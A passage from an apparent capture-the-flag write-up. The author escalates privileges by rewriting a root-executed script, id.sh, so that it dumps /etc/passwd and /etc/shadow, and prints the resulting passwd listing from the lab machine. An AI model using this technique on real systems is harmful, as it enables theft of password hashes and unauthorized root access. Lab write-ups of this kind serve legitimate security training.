 ```shell
cat /home/jack/test.txt
```

There is the root.txt flag!

Lets now try to get the password of root and other privilege escalation methods using the id.sh bash script.

### Getting the contents of /etc/passwd and /etc/shadow/
We can edit the contents of the id.sh as follow to get the contents of /etc/passwd and /etc/shadow on two different files:

```shell
echo '#!/bin/bash' > id.sh
echo 'cat /etc/passwd > passwd.txt' >> id.sh
echo 'cat /etc/shadow > shadow.txt' >> id.sh
```

Now wait for root to run id.sh.

It worked!

Lets check passwd.txt:

```shell
cat passwd.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
jack:x:1000:1000:tom,,,:/home/jack:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
tomcat:x:1001:1001::/opt/tomcat:/bin/bash
```
